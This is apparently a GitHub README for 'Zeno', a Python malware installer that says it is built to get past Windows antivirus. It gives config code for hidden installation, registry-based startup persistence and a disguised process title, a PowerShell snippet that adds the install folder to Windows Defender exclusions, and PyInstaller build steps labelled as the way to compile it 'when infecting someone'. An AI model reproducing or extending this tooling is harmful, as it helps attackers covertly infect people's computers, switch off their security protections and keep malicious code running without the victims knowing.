![alt text](https://github.com/Zurek0x/zeno_Hijacker/blob/main/media/Screenshot_1.png?raw=true)
# Zeno Embedder/installer for Malware
This is a Malware Embedder/Installer written in python with the main purpose of executing code
to bypass the Windows Anti-Virus and then executing the user set code, There is a ton
of features and is constantly updated, You can enable/disable checks and passages.

# Background process
This works by working as  a background process, it will install the malware to a directory,
And add that to the windows startup *REGISTRY* Where it cannot be removed under startup apps
or be seen by task manager, When running the installer again if it detects that its already
been installed it will pass all installer functions.

# Script Features
> Bypassing Features
> * **installer (system32 compatible)**
> * **Self Startup (Registry Key, Not Shortcut)**
> * **Powershell Executor (ps executor)**
> * **Self Exclusion Adder (Add Self To Virus Exclusions)**

# Usage
**Config**
```python
#? Options & Settings ?#
# 1 = On
# 0 = Off
install_set=int(1) # Install to custom directory [ HAS TO BE SET TO 1, BROKEN SCRIPT ]
startup_set=int(1) # Startup with windows at login screen
hide_console=int(0) # Hide console on startup and execution
add_exclusion=int(1) # Add Exclusion to Windows Antivirus through Powershell (Only requires admin rights once)
exec_dumb=int(1) # Execute a piece of code if the EXE is ran by the user (Malware will still run in background without GUI)
ctypes.windll.kernel32.SetConsoleTitleW("Microsoft (R) Aggregator Host") # Change Process Title/Handle

# /?data_inf?/ #
get_filename = f"{os.path.basename(__file__)}" # Get self file name to import too
filename=str(get_filename.replace(".py", ".exe")) # Replace .py in name to .exe (This is a compiler issue, Do not remove this or change any code relating to it)
user = os.getlogin() # Get Username of PC Directory (users)
self_path=str(f"{os.getcwd()}") # Get Path of Self #
install_path=str(f"C:\\Users\\{user}\\Documents\\dotnetV5") # Path to install the virus too ( MUST HAVE \\ not \ )
win_locStart=str(f"C:\\Users\\{user}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup") # Windows Shortcut Directory ( DO NOT CHANGE THIS )
```
***WARNING***
*Mainly you do not want to touch any code before the comment of #/?Execute Code?/#*
# Functions 
***Powershell Executor***
```python
import zeno_embed_func as zeno
import os

user = os.getlogin() # Get Username of PC Directory (users)
install_path=str(f"C:\\Users\\{user}\\Documents\\dotnetV5") # Path to install the virus too ( MUST HAVE \\ not \ )

script=str(f'powershell.exe -Command Add-MpPreference -ExclusionPath "{install_path}"')
zeno.powershell(install_path=install_path, script=script)
```

# Compiling to python
***This should be done and is how you should do it when infecting someone.***
```bash
pip install pyinstaller
pyinstaller --onefile zeno_embed.py
```
***Check Pyinstaller documentation for more info > https://pyinstaller.org/en/stable/usage.html***
